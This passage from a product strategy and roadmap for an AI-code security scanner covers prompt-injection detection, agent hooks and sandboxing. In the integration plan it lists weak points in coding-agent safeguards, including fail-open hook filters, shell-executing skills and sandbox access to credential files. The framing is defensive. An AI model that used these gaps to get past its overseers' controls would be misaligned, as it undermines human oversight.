1. **The platform vendors are giving the core loop away.** Anthropic's security plugin is **free on all plans**; OpenAI's Codex Security shipped with a free month and already has CI SARIF upload and severity policy; Google's CodeMender runs locally via CLI *and* builds PoC exploits in a customer-managed sandbox. Anything that is "an LLM reviews the diff" is commoditised inside a model subscription. CodeMender in particular threatens G1 directly — it is the one competitor already doing sandboxed exploit construction.
2. **Distribution beats capability.** GitHub bundles Autofix at $19–$30 per committer/month inside the SCM developers already use; Sonar claims 7M developers and >75% of the Fortune 100; Socket reached 27,000+ organisations. VG's distribution assets — an MCP server, a CLI, a plugin — are cheap to build and cheap to ignore.
3. **Capital asymmetry.** In ~18 months this niche minted Aikido at $1B, Socket at $1B, XBOW at >$1B, CodeRabbit at $1.5B, plus Zenity's $125M and Straiker's $64M. VG cannot outspend anyone.
4. **The revenue pool is smaller than the noise.** ASPM proper was **$686.8M in 2025** growing to $2,284.5M by 2030 (27.2% CAGR), with the top five holding ~63.5% of 2025 revenue ([Frost & Sullivan](https://store.frost.com/application-security-posture-management-aspm-market-global-2025-2030.html)); Gartner puts all application security at **$8.6B (2025) → $9.9B (2026) → $14.4B (2030)** ([summary](https://softwarestrategiesblog.com/2026/04/01/top-10-fastest-growing-security-categories-gartner-2026-forecast/)), while ResearchAndMarkets says $67.2B in 2026 ([GlobeNewswire](https://www.globenewswire.com/news-release/2026/08/13/3344704/28124/en/global-application-security-market-to-reach-us-67-2-billion-in-2026-as-ai-api-and-software-supply-chain-risks-accelerate-demand.html)) — an order-of-magnitude definitional disagreement that should itself make anyone cautious about market-size arguments.
5. **Buyers may not want correctness.** Three-quarters of surveyed teams knowingly deploy vulnerable code; only 22% have AI governance; and 77% of developers say vibe coding is not part of their professional work ([Stack Overflow](https://stackoverflow.co/company/press/archive/stack-overflow-2025-developer-survey/)) — which is a demand-side warning about the entire "vibe coding security" framing. "Verified fixes" can lose to "fast fixes" in procurement.
6. **Publishing honest numbers is commercially painful.** If VG's exploit-verified fix rate lands near 26% while competitors advertise 90% merge rates, the honest number reads as a worse product to a non-expert buyer. This is a real, unhedgeable cost of the strategy.
7. **Model progress may erase the wedge.** Veracode measured GPT-5.5 at a 68% security pass rate vs a 56% average ([Veracode 2026](https://www.veracode.com/blog/2026-genai-code-security-report-ai-risk/)); Claude Haiku 4.5 hallucinated packages at 4.62% vs a 19.7% baseline; and in-model interventions like Thea cut vulnerabilities ~15% on 1,916 CyberSecEval prompts ([ICSE '26](https://abhikrc.com/pdf/ICSE26-security.pdf)). If generation gets secure, the defect-class gap narrows.
8. **Open core can be strip-mined.** LGPL/Apache components are what VG orchestrates; VG's differentiator is rules + verification harness + benchmark. A better-funded competitor can fork the engine and out-distribute it.
9. **Prompt injection may be unwinnable enough to be unsellable.** If adaptive attacks bypass 85%+ of defenses and the honest posture is "risk reduction with residual", a buyer looking for a checkbox may prefer a vendor willing to say "protected".

### 20.3 Go / no-go conditions

**Go if, within the first two quarters, all of the following hold:**
- **Evidence gate:** VGBench C1 shows VG detects ≥3× the AI-specific defect classes that Opengrep-with-public-rules detects on the same corpus, at hard-negative FP rate ≤10%. If the marginal detection over a free engine is small, there is no product.
- **Verification gate:** verified-fix rate on C3 is ≥40% *with* an honestly published abstention rate — i.e. materially above the 26% independent baseline because of the harness, not because of cherry-picking.
- **Injection gate:** S1 detects ≥90% of C2 plaintext and Tier-1-concealment payloads with ≤5% FP on hard negatives, and VG's own S6 ASR on C4 is published and below the survey's 85% adaptive baseline.
- **Demand gate:** ≥20 organisations run `vg scan` weekly on private repos within 90 days of the MVP, and ≥5 cite air-gap/BYO-model as the reason they cannot use an incumbent. That specific reason matters more than the count.
- **Wedge-durability gate:** no platform vendor has shipped GA, exploit-verified, published-rate auto-fix. CodeMender's trajectory is the single most important thing to watch.

**No-go / pivot if:**
- CodeMender or Codex Security ships GA verification with published exploit-verified rates → pivot to the **benchmark + governance/provenance layer** (G5, G7, G8), which is defensible independently of who fixes the code.
- Verified-fix rate stalls below ~25% even with the harness → drop auto-fix from the value proposition entirely, ship detection + verified *reproduction* (PoC as a product), which is still unique and is honest.
- Agent-hijack detection cannot beat ~10% FP on hard negatives → ship it as advisory-only, never gating, and do not market it as a control.
- The buyer signal is "we want fast, not verified" across ≥15 conversations → the honest strategy has no market; open-source the engine and monetise governance/compliance evidence for regulated buyers instead, where the EU Cyber Resilience Act's SBOM and vulnerability-handling obligations create non-optional demand (reporting obligations from **11 September 2026**, main obligations from **11 December 2027**, [European Commission](https://digital-strategy.ec.europa.eu/en/policies/cyber-resilience-act)).

---

## 21. MVP, V2, V3

### 21.1 MVP — 8–10 weeks

**Scope (directive D10):** `vg scan` CLI covering S0–S5, S7, S9 plus the repo-trust/agent-hijack scan, for **JavaScript/TypeScript and Python only**.

**In:**
- `vg` CLI: `scan`, `explain`, `trust`, `report`, `version`, `--offline`, `--diff`, budget flags.
- S0 acquire in a tier-1 sandbox (no hooks, no submodule exec, size/entropy/symlink limits).
- S1 repo trust + agent-hijack scan: instruction-file inventory across the full T2 list, Unicode/obfuscation decode with run-length thresholds, injection heuristics tiers 1–4, MCP config audit, anti-truncation handling, repo trust label.
- S2 inventory + Syft SBOM (CycloneDX 1.7).
- S3 fan-out: Opengrep + VG rule corpus v1, Gitleaks, osv-scanner + Trivy, Trivy misconfig + Checkov, zizmor, Scorecard, dependency-provenance/hallucination gate.
- S4 correlation/dedup with the fingerprint hierarchy and `evidence[]` clustering; S5 deterministic context build.
- S7 risk engine with the full D5 formula, KEV/EPSS/SSVC fields, and the narrow gating policy.
- S9 outputs: SARIF 2.1.0, CycloneDX SBOM, signed JSON findings, Markdown + HTML report, hash-chained audit log.
- VIBE taxonomy v1, mapped to CWE 4.20 + OWASP Top 10:2025 + GenAI LLM Top 10 2026 + Agentic Top 10 2026.
- Docker image (pinned by digest) + air-gap image with bundled DBs; offline mode.
- GitHub Action (fallback CI path).
- `vg-mcp` read-only MCP server: `vg.scan`, `vg.explain`, `vg.repo_trust`.
- Two-process split, egress allowlist proxy, secret brokering, signed suppressions.
- VGBench C1 (seed, ~100 apps) and C2 (seed, ~50 repos × core payload matrix) with published results.

**Out of MVP, explicitly:** auto-fix application (explain + suggested unapplied diff only), Go/Java/PHP/Ruby/Rust, GitHub App and Checks, Claude Code plugin, DAST, container-build scanning, org dashboards, multi-repo, IDE plugins.

**Acceptance criteria:**
1. `vg scan` completes on a 100 KLOC JS/TS repo in ≤10 min wall-clock on 4 vCPU/8 GB, with per-stage timings emitted.
2. `--offline` completes with zero outbound connections, verified by the proxy's deny log, and the report stamps DB ages.
3. SARIF validates against 2.1.0, uploads to GitHub code scanning under a distinct `category`, and stays <10 MB gzipped with <5,000 effective results on the corpus.
4. Deterministic reproducibility: two runs on the same commit with the same tool digests produce byte-identical findings (modulo timestamps), and the audit-log chain verifies.
5. S1 detects ≥90% of C2 plaintext + Tier-1-concealment payloads at ≤10% FP on the hard-negative set; the ~100k-newline inflation case is detected.
6. No stage in S1–S5 opens a network socket (enforced and tested); no stage executes repo code (enforced and tested).
7. Every finding carries CWE, VIBE class, confidence, risk score, band, provenance and file:line; AI-only findings are marked `source=ai, unverified` and cannot gate.
8. Published metrics: precision/recall per class on C1/C2 and the OpenSSF CVE Benchmark, abstention rate, time and cost per KLOC — including regressions.
9. A documented, reproducible third-party replication path with a sealed split.

**Effort estimate (engineer-weeks):**

| Workstream | EW |
|---|---|
| CLI + DAG runner + budget governor + caching | 6 |
| S1 agent-hijack scanner (decoders, tiers, MCP audit, hard-negative tuning) | 8 |
| Scanner adapters + SARIF normalisation + S4 correlation/dedup | 7 |
| S5 context build (routes, auth map, reachability heuristics) for JS/TS + Python | 5 |
| VG rule corpus v1 (VIBE classes) | 5 |
| Risk engine + policy + suppressions | 3 |
| Sandbox, two-process split, egress proxy, secret broker, audit log | 6 |
| Reporting (SARIF/SBOM/MD/HTML/signing) | 3 |
| `vg-mcp` read-only server | 2 |
| Docker/air-gap packaging + GitHub Action | 3 |
| VGBench C1/C2 seed corpora + harness + publication | 7 |
| Docs, threat model, security policy | 2 |
| **Total** | **≈57 EW** |

**Team assumptions:** 6 people over 10 weeks ≈ 60 EW, which fits with ~5% slack. Composition: 1 tech lead / security architect (owns the trust model and §17); 2 backend engineers (DAG, adapters, correlation, MCP); 1 security researcher / rule author (VIBE corpus, S1 heuristics — this is the differentiating hire and must not be a generalist); 1 ML/AI engineer (S6 envelope, routing, calibration — light in MVP, heavy in V2); 1 benchmark/QA engineer (VGBench, CI gates, reproducibility). Plus fractional: legal review of the license matrix in week 1 (non-negotiable — three of the most capable tools in the space are license traps), and a part-time technical writer. **Unverified** assumption: that a rule author with both AI-code and injection-research experience is hirable inside the window; if not, MVP slips ~3 weeks or S1 ships with tiers 1–2 only.

### 21.2 V2 — verification and distribution (≈12–16 weeks after MVP)

- **Verification-first auto-fix (S8)**: full state machine, tier-3 sandbox, four-gate harness, PoC/property-test generation, deterministic codemod library, differential rescan, invariants/forbidden-edit checker, provenance + rollback.
- **GitHub App (`vg-app`)** with Checks write, SARIF upload, PR authoring, installation-token rate headroom (5,000–12,500/hr vs 1,000/hr for `GITHUB_TOKEN`), minimum permission set.
- **Correlation engine v2**: cross-tool agreement scoring, `confirmed`/`likely`/`disputed`/`abstain` outcomes, VEX-ready structure.
- **Claude Code plugin**: Skill (guidance only, no `!`-exec blocks, `disableSkillShellExecution` respected) + Subagent (isolated triage context) + **Hooks** (`PreToolUse` deny via exit 2 / `permissionDecision: deny`) + `.mcp.json` + `bin/`.
- **AI layer hardening**: dual-role Q/P split, self-consistency, calibration curve, abstention thresholds tuned per class, local-model profile with published deltas.
- **Language expansion**: Go and Java (Java unlocks CWE-Bench-Java as an external metric).
- **Benchmark harness v2**: CWE-Bench-Java, OpenSSF CVE Benchmark, SEC-bench, SecLLMHolmes, AutoPatchBench-Lite, muence-ai/vibesec, plus AgentDojo/InjecAgent/ASB/MCPSecBench for self-robustness.
- **Acceptance:** verified-fix rate ≥40% on C3 with published abstention; zero auto-applied patches; every PR carries a complete provenance block and a verified rollback path; injection-resistance ASR published.

### 21.3 V3 — organisation scale (≈2–3 quarters after V2)

- Multi-repo / org posture, dashboards, trend and drift reporting.
- **AI-provenance attribution** (G5): which lines, which agent, which model version, which prompt/rules file — joined to findings and to policy ("no agent-authored auth code merges without a human security reviewer").
- **Agent-loop guardrails as a product**: real-time hook enforcement + the egress allowlist proxy shipped as a standalone control, with signed action receipts.
- Policy-as-code, VEX output (CycloneDX VEX), SSVC-driven workflows.
- Air-gapped enterprise packaging, SSO/RBAC, retention controls, evidence bundles mapped to SSDF (SP 800-218/218A), ASVS 5.0.0, SLSA v1.1 levels and CRA obligations.
- Optional execution-based modes behind explicit consent: container-build scanning, DAST against a customer-deployed instance, fuzz-assisted verification for native code (the class V2 honestly cannot verify).
- Go/Java depth plus PHP, Ruby, Rust.

---

## 22. Roadmap

### 22.1 Phases

| Phase | Weeks | Milestone | Exit criteria |
|---|---|---|---|
| **P0 — Foundations** | 1–2 | Repo, CI, pinned toolchain (Python 3.12/uv/ruff/pytest), Docker skeleton, threat model written, **legal sign-off on the license matrix**, VIBE taxonomy v0 | Legal sign-off recorded; reproducible image build; threat model reviewed by someone outside the team |
| **P1 — Trust core** | 2–5 | S0 + S1 + tier-1 sandbox + two-process split + egress proxy + audit log | S1 meets the ≥90% / ≤10% FP bar on the C2 seed; no network from S1–S5, enforced by test; audit chain verifies |
| **P2 — Scan core** | 4–8 | S2–S5, all adapters, SARIF normalisation, correlation/dedup, budget governor, caching | 100 KLOC repo in ≤10 min; byte-identical reruns; SARIF validates and uploads |
| **P3 — Risk + report** | 7–9 | S7, S9, signing, `vg-mcp` read-only, GitHub Action, air-gap image | All nine MVP acceptance criteria pass |
| **P4 — MVP release + VGBench v1** | 9–10 | Public MVP, VGBench C1/C2 seed results published incl. regressions | ≥20 orgs scanning weekly within 90 days; results reproducible by a third party on the sealed split |
| **P5 — Fix harness** | 11–18 | S8 state machine, tier-3 sandbox, four gates, codemods, PoC/test generation, invariants checker | Verified-fix rate ≥40% on C3 with published abstention; zero auto-applied patches; rollback demonstrated on a real merge |
| **P6 — Platform surfaces** | 15–22 | GitHub App + Checks + PR authoring; Claude Code plugin (skill+subagent+hooks+mcp) | App runs with the minimum permission set; hook denies a real prohibited tool call in both Claude Code and Cursor via the same binary |
| **P7 — AI layer v2** | 18–24 | Q/P split, self-consistency, calibration curve, local-model profile, Go + Java | Calibration curve published; local-profile quality delta published; CWE-Bench-Java result published against the IRIS/CodeQL baseline |
| **P8 — Benchmark v2 + external review** | 22–26 | Full VGBench + external benchmark suite + invited replication | Third-party replication completed or the blocker documented publicly |
| **P9 — Org scale (V3)** | 27+ | Provenance attribution, guardrail product, policy-as-code, VEX, air-gapped enterprise packaging | Compliance evidence bundle accepted by one regulated design partner |

### 22.2 Hiring and skills

| Phase | Add | Why |
|---|---|---|
| P0–P1 | security architect, 2 backend, **security researcher (injection + AI-code specialist)**, benchmark/QA | The researcher is the differentiating hire; without them S1 and the VIBE corpus are commodity regex work |
| P2–P3 | +1 backend (adapters/correlation are wider than they look) | Adapter and normalisation work scales with tool count |
| P5 | +1 systems engineer (sandbox/gVisor/microVM, execution isolation), +1 test-generation engineer | Execution isolation and oracle generation are distinct specialisms; conflating them is how verification harnesses become insecure |
| P6 | +1 platform engineer (GitHub App, webhooks, rate limits), fractional DevRel | App and Checks work is API-shaped, not analysis-shaped |
| P7 | ML engineer to full-time; +1 rule author per new language | Calibration and routing become continuous work |
| P8+ | +1 benchmark engineer, +1 compliance/solutions engineer | Publishing metrics every release is ongoing labour, not a project |

Skills that must exist in-house and cannot be outsourced: prompt-injection research, SARIF/taxonomy normalisation, sandbox/OS isolation, and benchmark methodology. Skills that can be bought or deferred: frontend/dashboards, IDE integrations, marketing site.

### 22.3 Claude Code integration plan

Layered so nothing in the engine depends on Claude:

1. **MCP server (`vg-mcp`)** — the primary agent-facing surface, and the only one that is portable. Read-only by default: `vg.scan`, `vg.explain`, `vg.repo_trust` read; `vg.propose_fix` returns an unapplied diff; `vg.verify_fix` returns evidence. stdio for local, streamable-HTTP + OAuth for hosted. Same server works in Claude Code, Cursor, Copilot Chat and Codex ([MCP](https://docs.claude.com/en/docs/claude-code/mcp), [Cursor MCP](https://cursor.com/docs/context/mcp), [Copilot MCP](https://docs.github.com/en/copilot/how-tos/provide-context/use-mcp/extend-copilot-chat-with-mcp), [Codex config](https://developers.openai.com/codex/local-config)). Design notes: watch the 5-minute HTTP idle / 30-minute stdio idle and 5-attempt reconnect behaviour; never use `headersHelper`, which executes arbitrary shell with a 10-second timeout; and note that project-scoped `.mcp.json` approval is impossible in `claude -p`, the SDK and cloud sessions because they cannot prompt — so VG's CI path must not depend on project-scope MCP approval.
2. **Hook binary (`vg-hook`)** — the enforcement surface. Hooks are the **only** Claude Code surface that can actually block a tool call: `PreToolUse` supports `hookSpecificOutput.permissionDecision` of `allow`/`deny`/`ask`/`defer` with precedence deny > defer > ask > allow, and exit code 2 blocks on supporting events ([hooks](https://docs.claude.com/en/docs/claude-code/hooks)). One stdio binary serves two hosts, because Cursor implements exit-code-2 deny explicitly to match Claude Code and can load Claude Code hooks ([Cursor hooks](https://cursor.com/docs/agent/hooks)). Design around the documented weaknesses: hooks run with full user permissions, `if` filters **fail open**, async hooks cannot enforce policy, HTTP hooks need 2xx **plus** decision JSON, output is capped at 10,000 characters, and Anthropic's own docs say to prefer the permission system for hard allow/deny. VG therefore ships hooks as defence-in-depth and simultaneously ships recommended `permissions.deny` rules.
3. **Skill (`vg-skill`)** — workflow guidance **only**. No `!`-exec blocks, no `allowed-tools` grants, `disableSkillShellExecution` respected. This is a deliberate self-restriction: skills can execute code via `` !`cmd` `` **before** content reaches the model, and `allowed-tools` grants tools without prompting even in `-p` mode in untrusted folders ([skills](https://docs.claude.com/en/docs/claude-code/skills)). A security product that shipped an exec-capable skill would be shipping the vulnerability class it sells protection against. Budget discipline: `description` + `when_to_use` capped at 1,536 chars, body <500 lines, 5,000 tokens retained per skill against a 25,000-token combined budget.
4. **Subagent (`vg-triage`)** — isolated context window for triage, read-only tool set, `isolation: worktree` where Bash is needed. Known limitation designed around: plugin-shipped subagents do **not** support `hooks`, `mcpServers` or `permissionMode` (silently ignored for security reasons), and subagents share the parent process and sandbox configuration — they are **not** a sandbox boundary ([sub-agents](https://docs.claude.com/en/docs/claude-code/sub-agents), [sandboxing](https://docs.claude.com/en/docs/claude-code/sandboxing)).
5. **Plugin (`vg-plugin`)** — the packaging wrapper bundling skill + subagent + hooks + `.mcp.json` + `bin/`, published from our own git-hosted marketplace (`.claude-plugin/marketplace.json`) and optionally submitted to the official/community catalogs, where community entries are pinned to a commit SHA with nightly catalog sync ([plugins](https://docs.claude.com/en/docs/claude-code/plugins), [plugin marketplaces](https://docs.claude.com/en/docs/claude-code/plugin-marketplaces)). Installable in CI via the Action's `plugin_marketplaces` / `plugins` inputs.
6. **What we deliberately do not build:** anything on the Agent SDK that constitutes resale. Anthropic does not allow third parties to offer claude.ai login or rate limits for their products without prior approval, prohibits "Claude Code"/"Claude Code Agent" branding, and governs use under its Commercial Terms ([Agent SDK overview](https://docs.claude.com/en/docs/claude-code/sdk/sdk-overview)). VG uses API-key/BYO auth and brands as VibeGuard.
7. **Trust-boundary caution to document for users:** `-p`/SDK sessions skip trust verification and treat the folder as trusted ([security](https://docs.claude.com/en/docs/claude-code/security)); Accept Edits mode auto-approves `mkdir`, `touch`, `rm`, `mv`, `cp`, `sed`; the default sandbox read policy still permits `~/.aws/credentials` and `~/.ssh/`; and Claude Code on the web can access **any repository visible to the connecting GitHub account** — App installation is not session-level access control ([claude-code-on-the-web](https://docs.claude.com/en/docs/claude-code/claude-code-on-the-web)). VG's documentation states these plainly rather than implying its plugin fixes them.

### 22.4 The verdict: Agent vs Skill vs MCP vs Plugin vs Hybrid

**Verdict: Hybrid, with a strict layering and a non-negotiable ordering — standalone engine + CLI first, MCP second, hooks third, plugin fourth, GitHub App in parallel. Never a skill-only or agent-only product.**

Reasoning, surface by surface:

- **Skill-only is disqualified.** It is the cheapest thing to ship and the most-copied approach in 2026 — a large share of new AI-code-security projects are Markdown skill/rule packs: [BehiSecc/VibeSec-Skill](https://api.github.com/repos/BehiSecc/VibeSec-Skill) (1,191★, quiet since 2026-02-17), [SunWeb3Sec/llm-sast-scanner](https://api.github.com/repos/SunWeb3Sec/llm-sast-scanner) (274★, unlicensed), [TikiTribe/claude-secure-coding-rules](https://api.github.com/repos/TikiTribe/claude-secure-coding-rules) (138★), [untamed-theory/vibesec](https://api.github.com/repos/untamed-theory/vibesec) (47★, dormant). They carry no engine, their quality is unverifiable without a benchmark, they cannot block anything, and one of the most-starred admits it "already covers 60-70% of the common vulnerabilities". A skill also cannot be offline-deterministic or reproducible, which kills every metric in §18.
- **Agent-only (an autonomous LLM agent) is disqualified.** It inherits the model vendor's terms, its prompt-injection exposure, and its non-determinism, and it cannot produce reproducible findings. The candid data point is that Anthropic's own reviewer is "not hardened against prompt injection attacks and should only be used to review trusted PRs" — an agent-only product scanning untrusted repos starts from that position with no deterministic floor beneath it.
- **MCP-only is insufficient but essential.** MCP has the **highest cross-agent portability and the lowest vendor lock-in** of any surface: identical protocol in Claude Code, Cursor, Copilot Chat and Codex. But an MCP server **cannot block a tool call** — it is a tool provider, not a policy enforcement point — and it cannot be a CI gate on its own.
- **Hooks are the only real enforcement surface, and they are portable.** `PreToolUse` deny / exit code 2 is the sole mechanism that stops an action before it happens, and Cursor implemented the same contract deliberately for compatibility. But hooks fail open on `if` filters, cannot enforce asynchronously, and run with full user permissions — so hooks are defence-in-depth, never the product.
- **Plugin-only is disqualified.** It is the best distribution wrapper (own marketplace, official/community catalogs, CI-installable) and the **most vendor-locked** format, with deliberate capability restrictions (plugin subagents cannot set `hooks`, `mcpServers` or `permissionMode`; plugin `settings.json` supports two keys). A plugin is a package, not a product.
- **GitHub App is orthogonal and required for the platform half.** Checks API write is **App-only**; installation tokens get 5,000–12,500 req/hr against 1,000/hr for `GITHUB_TOKEN`; Apps have no permissions by default and installation tokens are scoped to the App's permissions. It carries GitHub lock-in but **zero AI-vendor lock-in** — the opposite risk profile to the agent surfaces, which is exactly why we want both.
- **Therefore hybrid, in this order.** The **CLI + deterministic engine is the product**: it is the only artifact that runs offline, produces reproducible SARIF, is measurable on a benchmark, is safe to sell into regulated/air-gapped environments, and survives any single vendor's roadmap. Everything else is a thin adapter over it: MCP for reach, hooks for enforcement, plugin for distribution, App for the platform, Action as an air-gapped/self-hosted CI fallback. If Anthropic, OpenAI or Google changes terms tomorrow, VG loses a distribution channel, not the product.

Two consequences worth stating explicitly because they are easy to get wrong under commercial pressure: (1) **no VG capability may exist only in the plugin** — parity with the CLI is a release gate; (2) **the MCP server must never return raw untrusted repo text** into a client agent's context, because that would make VG an injection relay into the very agents it is meant to protect (§17.13, R8).

---

# Sources

### GitHub repositories and repository metadata

- Opengrep — https://github.com/opengrep/opengrep · https://api.github.com/repos/opengrep/opengrep · https://api.github.com/repos/opengrep/opengrep/releases · https://api.github.com/repos/opengrep/opengrep/commits
- Semgrep OSS — https://github.com/semgrep/semgrep · LICENSE https://github.com/semgrep/semgrep/blob/develop/LICENSE
- semgrep-rules — https://github.com/semgrep/semgrep-rules · https://api.github.com/repos/semgrep/semgrep-rules
- semgrep/mcp (archived) — https://api.github.com/repos/semgrep/mcp
- semgrep/mythos-bench — https://github.com/semgrep/mythos-bench
- CodeQL CLI license — https://github.com/github/codeql-cli-binaries/blob/main/LICENSE.md · queries https://api.github.com/repos/github/codeql
- Trivy — https://github.com/aquasecurity/trivy · tfsec https://github.com/aquasecurity/tfsec
- Syft — https://github.com/anchore/syft · Grype https://github.com/anchore/grype
- osv-scanner — https://github.com/google/osv-scanner · osv-scalibr https://github.com/google/osv-scalibr
- Gitleaks — https://github.com/gitleaks/gitleaks · TruffleHog https://api.github.com/repos/trufflesecurity/trufflehog · detect-secrets https://api.github.com/repos/Yelp/detect-secrets · Nosey Parker (archived) https://api.github.com/repos/praetorian-inc/noseyparker
- zizmor — https://github.com/zizmorcore/zizmor · poutine https://github.com/boostsecurityio/poutine · actionlint https://github.com/rhysd/actionlint · harden-runner https://github.com/step-security/harden-runner
- Checkov — https://github.com/bridgecrewio/checkov · KICS https://github.com/Checkmarx/kics · Terrascan (archived) https://api.github.com/repos/tenable/terrascan
- OpenSSF Scorecard — https://github.com/ossf/scorecard · checks https://github.com/ossf/scorecard/blob/main/docs/checks.md · action https://github.com/ossf/scorecard-action · Allstar https://github.com/ossf/allstar
- Brakeman license — https://github.com/presidentbeef/brakeman/blob/main/LICENSE.md
- Bandit — https://github.com/PyCQA/bandit · formatters https://bandit.readthedocs.io/en/latest/formatters/index.html
- gosec — https://github.com/securego/gosec · hadolint https://github.com/hadolint/hadolint · Dockle https://github.com/goodwithtech/dockle · njsscan https://github.com/ajinabraham/njsscan · cargo-audit/RustSec https://github.com/rustsec/rustsec · bundler-audit https://github.com/rubysec/bundler-audit
- Nuclei — https://github.com/projectdiscovery/nuclei · LICENSE https://github.com/projectdiscovery/nuclei/blob/dev/LICENSE.md · ZAP https://api.github.com/repos/zaproxy/zaproxy · sqlmap LICENSE https://raw.githubusercontent.com/sqlmapproject/sqlmap/master/LICENSE
- OWASP Dependency-Check — https://github.com/dependency-check/DependencyCheck · dep-scan https://github.com/owasp-dep-scan/dep-scan · Dependency-Track https://github.com/DependencyTrack/dependency-track · cdxgen https://github.com/CycloneDX/cdxgen · pip-audit https://github.com/pypa/pip-audit · Socket CLI https://github.com/SocketDev/socket-cli
- safedep/vet — https://github.com/safedep/vet · https://api.github.com/repos/safedep/vet
- DataDog/guarddog — https://github.com/DataDog/guarddog · https://api.github.com/repos/DataDog/guarddog
- Slopsquatting tooling — https://github.com/trendmicro/slopsquatting · https://api.github.com/repos/matte1782/phantom_guard · https://api.github.com/repos/WT-MM/slopguard · https://api.github.com/repos/cuttalo/depscope
- iris + CWE-Bench-Java — https://github.com/iris-sast/iris · https://github.com/iris-sast/cwe-bench-java
- anthropics/claude-code-security-review — https://github.com/anthropics/claude-code-security-review
- GitHubSecurityLab — https://github.com/GitHubSecurityLab/seclab-taskflow-agent · https://github.com/GitHubSecurityLab/seclab-taskflows
- AIxCC systems — https://github.com/AIxCyberChallenge/sherpa · https://github.com/trailofbits/buttercup · https://github.com/shellphish/PatcherY · https://github.com/shellphish/artiphishell · https://github.com/fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain · https://github.com/theori-io/aixcc-afc-archive · https://github.com/Team-Atlanta/aixcc-afc-atlantis (LICENSE conflict: https://github.com/Team-Atlanta/aixcc-afc-atlantis/blob/main/LICENSE)
- muence-ai/vibesec — https://github.com/muence-ai/vibesec · BehiSecc/VibeSec-Skill https://api.github.com/repos/BehiSecc/VibeSec-Skill · SunWeb3Sec/llm-sast-scanner https://api.github.com/repos/SunWeb3Sec/llm-sast-scanner · TikiTribe/claude-secure-coding-rules https://api.github.com/repos/TikiTribe/claude-secure-coding-rules · untamed-theory/vibesec https://api.github.com/repos/untamed-theory/vibesec · anshumanbh/securevibes https://github.com/anshumanbh/securevibes
- vulnhuntr — https://github.com/protectai/vulnhuntr · https://api.github.com/repos/protectai/vulnhuntr/commits · vulnhuntr-mod https://github.com/kxcode/vulnhuntr-mod
- pixee/codemodder-python — https://api.github.com/repos/pixee/codemodder-python
- bearer license — https://github.com/Bearer/bearer/blob/main/LICENSE.txt
- honeyslop — https://github.com/gadievron/honeyslop · src2sink https://github.com/mimecast/src2sink · usestrix/strix https://github.com/usestrix/strix · stacklok/codegate https://api.github.com/repos/stacklok/codegate · PurpleLlama license https://github.com/meta-llama/PurpleLlama/blob/main/LICENSE
- Sandboxing — https://github.com/anthropic-experimental/sandbox-runtime · advisories https://api.github.com/repos/anthropic-experimental/sandbox-runtime/security-advisories · https://github.com/google/gvisor · https://github.com/jingkaihe/matchlock (README https://api.github.com/repos/jingkaihe/matchlock/readme) · https://api.github.com/repos/earendil-works/gondolin/readme · https://api.github.com/repos/akitaonrails/ai-jail/readme · https://github.com/kubernetes-sigs/agent-sandbox (README https://api.github.com/repos/kubernetes-sigs/agent-sandbox/readme) · bubblewrap advisories https://api.github.com/repos/containers/bubblewrap/security-advisories · microsandbox advisories https://api.github.com/repos/superradcompany/microsandbox/security-advisories
- Secret brokering — https://api.github.com/repos/Infisical/agent-vault/readme
- MCP security tooling — https://api.github.com/repos/snyk/agent-scan · https://api.github.com/repos/invariantlabs-ai/mcp-scan · https://github.com/cisco-ai-defense/mcp-scanner (API https://api.github.com/repos/cisco-ai-defense/mcp-scanner) · https://github.com/trailofbits/mcp-context-protector (README https://api.github.com/repos/trailofbits/mcp-context-protector/readme) · https://api.github.com/repos/getjavelin/ramparts · https://api.github.com/repos/Nova-Hunting/nova-proximity · https://api.github.com/repos/YawLabs/ctxlint · https://api.github.com/repos/Mishit18/claude-code-doctor · https://api.github.com/repos/Dicklesworthstone/destructive_command_guard/license · https://github.com/luckyPipewrench/pipelock · https://api.github.com/repos/Edison-Watch/open-edison
- MCP infrastructure advisories — https://api.github.com/repos/docker/mcp-gateway/security-advisories · https://api.github.com/repos/IBM/mcp-context-forge/security-advisories · https://api.github.com/repos/stacklok/toolhive/security-advisories · https://api.github.com/repos/agentgateway/agentgateway/security-advisories · https://api.github.com/repos/modelcontextprotocol/registry/security-advisories
- Repo-rename redirects — https://api.github.com/repos/superradcompany/microsandbox · https://api.github.com/repos/mavdol/capsule
- Attack fixtures — https://github.com/harishsg993010/damn-vulnerable-MCP-server · https://github.com/invariantlabs-ai/mcp-injection-experiments
- Benchmarks and datasets — https://github.com/ossf-cve-benchmark/ossf-cve-benchmark · https://github.com/SEC-bench/SEC-bench · https://github.com/agiresearch/asb · https://github.com/ai4cloudops/SecLLMHolmes · https://github.com/n132/ARVO-Meta · https://github.com/google/oss-fuzz-gen · https://github.com/secureIT-project/CVEfixes (Zenodo https://doi.org/10.5281/zenodo.4476563) · https://github.com/meta-llama/PurpleLlama
- Open-source index lists — https://github.com/scadastrangelove/awesome-ai-security-tools · https://github.com/ottosulin/awesome-ai-security · https://github.com/affaan-m/agentshield · https://github.com/Puliczek/awesome-mcp-security · https://github.com/dloss/awesome-agent-sandboxes
- Nx advisory — https://github.com/nrwl/nx/security/advisories/GHSA-cxm3-wv7p-598c

### Vendor and independent research blogs

- Simon Willison — lethal trifecta https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/ · Rule of Two / new papers https://simonwillison.net/2025/Nov/2/new-prompt-injection-papers/ · auto mode https://simonwillison.net/2026/Aug/8/auto-mode/
- Unit 42 — https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/
- Cloud Security Alliance research notes — README injection https://labs.cloudsecurityalliance.org/research/csa-research-note-readme-instruction-injection-ai-coding-age/ · skill-scanner bypass https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/ · slopsquatting https://labs.cloudsecurityalliance.org/research/csa-research-note-slopsquatting-ai-supply-chain-20260419-csa/ · AI-generated-code vulnerability surge https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-generated-code-vulnerability-surge-2026/
- Embrace The Red — DNS exfiltration https://embracethered.com/blog/posts/2025/claude-code-exfiltration-via-dns-requests/ · Copilot RCE / YOLO mode https://embracethered.com/blog/posts/2025/github-copilot-remote-code-execution-via-prompt-injection/ · scary agent skills https://embracethered.com/blog/posts/2026/scary-agent-skills/ · ASCII smuggler https://embracethered.com/blog/posts/2025/sneaky-bits-and-ascii-smuggler/ · index https://embracethered.com/blog/
